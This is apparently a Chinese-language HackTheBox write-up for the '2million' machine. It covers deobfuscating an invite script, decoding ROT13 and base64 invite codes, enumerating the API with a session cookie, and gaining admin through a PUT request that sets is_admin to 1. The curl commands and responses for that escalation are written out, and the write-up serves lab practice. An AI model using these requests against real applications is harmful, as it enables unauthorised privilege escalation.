

linux_JavaScript 

前后端通信（Ajax + API）:
技术                           作用	                    举例
Ajax（用 jQuery 或 原生 JS 写）	向服务器请求数据而不刷新页面	点按钮生成邀请码时从 /api/v1/... 获取数据
API接口	                      后台返回 JSON 数据	        { "invite_code": "abc123" }

jQuery 是个老牌工具库，很多老网站和项目用它，现在新项目用得较少（转向 Vue/React），但它对理解 Ajax 很重要

### ` echo 'IP 2million.htb' | sudo tee -a /etc/hosts`

### 目标网页的Fn+12原代码 发现隐藏代码为典型的 JavaScript 混淆格式

在Debugger > 2million.htb > js > inviteapi.min.js

https://lelinhtinh.github.io/de4js/ 


(代码解析）
可读JavaScript代码


### 出现了 ROT13 值得学习
加密类型被暗示为ROT13，基本上是凯撒密码。一个提示也是可见的，提到我们需要识别加密类型并对其进行解密


通过ROT13解码 ：为了生成邀请代码，向/api/v1/invite/generate发出POST请求

生成的邀请码还有解base64


### 登陆账户之后，开启本地拦截burpsuite,下载Access的VPN，只是为了获得页面已经登陆的cookie
拿着cookie开始 查询API接口信息
`curl -v 2million.htb/api --cookie "PHPSESSION=..." | jq`
获得版本
`curl -v 2million.htb/api/v1 --cookie "PHPSESSION=..." | jq`
获得很多API接口URL信息
```
GET  /api/v1/admin/auth             //管理用户，   显示200，messags:galse
POST /api/v1/admin/vpn/generate     //生成VPN配置，显示401 Unauthorised错误，可能因为不是管理员
PUT  /api/v1/admin/settings/update  //更新设置     享受200，status:danger(危险) messags:Invalid content type(无效内容类型)
```
它们的具体命令：
```
curl -sv 2million.htb/api/v1/admin/auth  --cookie "PHPSESSION=..." | jq
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate  --cookie "PHPSESSION=..." | jq
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." | jq
```

谁能想到 无效内容类型 竟然是一个开端，PUT为更新或覆盖，POST为新增
这次没有得到未经授权的错误，而是API回复了无效的内容类型
API以JSON格式回复，将Content-Type头设置为JSON并再试一次


### 发现id 注入漏洞
```
curl -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." --header "Content-Type: application/json" | jq
//message:"Missing parameter: email"
curl -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." --header "Content-Type: application/json" --data '{"email": "..."}' | jq
//messags:"Missing parameter: is_admin"
curl -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." --header "Content-Type: application/json" --data '{"email": "...", "is_admin": true}' | jq
//messags:"Varable is_admin needs to be either 0 or 1."
curl -X PUT http://2million.htb/api/v1/admin/settings/update  --cookie "PHPSESSION=..." --header "Content-Type: application/json" --data '{"email": "...", "is_admin": 1}' | jq
//"id": 13,
//"username":...,
//"id_admin": 1
```
访问第一条管理用户
```
curl -sv 2million.htb/api/v1/admin/auth  --cookie "PHPSESSION=..." | jq
//"message": true 大功告成
```


